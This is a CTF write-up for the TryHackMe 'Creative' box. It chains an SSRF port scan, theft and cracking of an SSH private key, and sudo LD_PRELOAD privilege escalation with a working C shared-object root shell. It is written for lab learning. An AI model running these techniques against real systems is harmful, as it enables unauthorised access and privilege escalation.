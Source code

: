 ```yaml
---
title: "THM - Creative writeup"
date: 2024-05-08
image: /assets/images/creative/banner_creative.png
tags:
  [
    tryhackme,
    writeups,
    nmap,
    dns,
    subdomain,
    ssrf,
    python,
    john_the_ripper,
    ld.so,
    c_lang,
    ld_preload,
  ]
categories: [TryHackMe, Writeup, CTF, Easy]
redirect_from: /2024/05/08/creative/
---
```


Hi,

This is my writeup about the [TryHackMe](https://tryhackme.com) box ["Creative"](https://tryhackme.com/r/room/creative).

## Information gathering

If you have read any of my older writeups, you know that I always have the same start:

```bash
nmap -Pn TARGET_MACHINE_IP -oN ports && nmap -Pn -sC -sV -p $(grep -Po '.*(?=/tcp)' ports | tr '\n' ',') TARGET_MACHINE_IP -oN services
```
{: .nolineno}

That scan reveals two open ports:

- 22 which is running OpenSSH
- 80 which is running Apache

## Redirection to FQDN

After trying to visit the website by type the ip into the browser url bar, the response is a redirection to the FQDN `creative.thm`, which results into a empty page. To solve this problem, I have to add the ip and the FQDN to my `/etc/hosts` file.

After that the website is shown as expected:

![creative.thm.png](/assets/images/creative/creative.thm.png){: .dark .w-75 .shadow .rounded-10 w='1212' h='668' }

I have looked through the whole page but there are no hints there. I even scraped all the usernames and the structure of email address.

But all were useless and I have to change my direction.

### Forgotten door

I decided to search for subdomains with help of [gobuster](https://github.com/OJ/gobuster). And there is one subdomain:

![gobuster_vhost.png](/assets/images/creative/gobuster_vhost.png){: .dark .w-75 .shadow .rounded-10 w='1212' h='668' }

I used `subdomains-top1million-20000.txt` wordlist, but `rockyou.txt` will also work in this case.
Now lets have a look on that subdomain by adding it to the `/etc/hosts` file with the same ip as the main site.

![beta.creative.thm.png](/assets/images/creative/beta.creative.thm.png){: .dark .w-75 .shadow .rounded-10 w='1212' h='668' }

I should be able to give a url which will be "tested" from the target server. This looks like a opportunity for an [SSRF-attack](https://portswigger.net/web-security/ssrf#:~:text=Server%2Dside%20request%20forgery%20is,services%20within%20the%20organization's%20infrastructure.).

First let's open a simple http server locally and try to reach it from the target server.

```bash
python -m http.server 9090
```
{: .nolineno}

![targetToUs.png](/assets/images/creative/targetToUs.png){: .dark .w-75 .shadow .rounded-10 w='1212' h='668' }

Now that the proof is done, I have decided to check if I can check for open ports from internally. From external with help of nmap, I was able to find two open ports: 80 and 22.

First I checked the open port 22 and got a

```html
<p>Dead</p>
```
{: .nolineno}

response. Then, just to be sure that this really doesn't work, I checked port 80, which is also open. But this time, the response contains the whole main page as html text. By inspecting the request with developer tools, I had all needed information to create a simple portscanner with python.

![inspectURLTesting.png](/assets/images/creative/inspectURLTesting.png){: .dark .w-75 .shadow .rounded-10 w='1212' h='668' }

### DIY Portscan

```python
import requests
from concurrent.futures import ThreadPoolExecutor

def checkPort(port):
  data = {"url": f"http://localhost:{port}"}
  response = requests.post("http://beta.creative.thm", data=data)
  if "Content-Length" not in response.headers:
    print(f"Found open port: {port}")

with ThreadPoolExecutor(max_workers=30) as executor:
  executor.map(checkPort, list(range(1,65535)))
```

I'm checking for the `Content-Length` header, because it only appears when the port is not open. With this scan I was able to find out that port 1337 is accepting requests.

When requesting that port the response is the root directory of the server self.

## Footstep

From this point, to get the content of user.txt is straight forward, because I can just enter any directory I want to get the content of it. Just look at `/home/` to get the username and then into the user's home to find out the name of the file with the first flag.

After that I didn't waste time on bruteforcing the password for the user to get ssh connection. I just read the content of `~/.ssh` and grab the user's private key. The private key is encrypted, so to be able to use it and connect via ssh, I had to bruteforce it with john.

```bash
ssh2john id_rsa > id_rsa_hash
```
{: .nolineno}

```bash
john --wordlist ./rockyou.txt id_rsa_hash
```
{: .nolineno}

After that I was logged in as user saad via ssh.

## PrivEsc

The last step has to be done now. In order to get root, I've searched for any SUID oder Cronjob without luck.
To see if saad has some sudoers privileges, I have to get the password. But the cracked password for the private key is not the same as for the user. By looking into the users home directory, I observed the password in the `.bash_history` file.
And the user has sudoers privileges but only for using the ping command, which is useless for in order to gain root privileges. But there is something else...

![sudo-l.png](/assets/images/creative/sudo-l.png){: .dark .w-75 .shadow .rounded-10 w='1212' h='668' }

This is interesting, because we can use it to gain root access. (see [man8 - ld.so](https://man7.org/linux/man-pages/man8/ld.so.8.html))

For this I have created a simple `c` code:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
  unsetenv("LD_PRELOAD"); // To prevent further interceptions of library functions
  // Set user ID and Group to 0 (root)
  setgid(0);
  setuid(0);
  // Spawn a shell as root
  system("/bin/bash");
}
```

Then compile and run the code to get root.

```bash
gcc -fPIC -shared -o getRoot.so getRoot.c -nostartfiles
```
{: .nolineno}

The `-nostartfiles` is needed or the redefinition of \_init() would cause a compiling error.

```bash
sudo LD_PRELOAD=./getRoot.so ping
```
{: .nolineno}

Good luck! :)

---

![darksoulsMeme.png](/assets/images/darksoulsMeme.png){: width="972" height="589" }

